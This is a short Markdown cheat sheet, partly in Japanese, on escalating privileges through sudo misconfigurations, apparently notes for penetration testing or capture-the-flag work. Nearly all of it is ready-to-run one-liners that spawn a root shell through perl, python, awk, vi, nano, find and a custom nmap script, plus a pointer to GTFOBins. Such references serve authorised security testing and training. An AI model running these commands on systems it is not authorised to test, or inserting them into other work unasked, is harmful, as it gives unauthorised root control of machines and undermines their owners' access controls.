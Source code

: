 ## sudo -l
#### perl
`sudo perl -e 'exec "/bin/sh";'`
#### python
`sudo python3 -c 'import os; os.system("/bin/bash")'`
#### awk
`sudo awk 'BEGIN {system("/bin/bash")}'`
#### vi
`sudo vi –c ‘:!bash’`
#### nano
- nanoの場合は、エディタ起動後、^R^X（[Ctrl]+R、[Ctrl]+X）により、コマンドの実行結果を挿入
```bash
sudo nano
^R^X # ^R^X（[Ctrl]+R、[Ctrl]+X）
reset; bash 1>&0 2>&0
```
#### find
`sudo find / -exec /bin/bash ¥;`
#### nmap
- `cat shell.nse`
  ```
  os.execute("/bin/bash")
  ```
  `sudo nmap --script ./shell.nse localhost`
#### 検索用
`https://gtfobins.github.io/#+sudo`

  

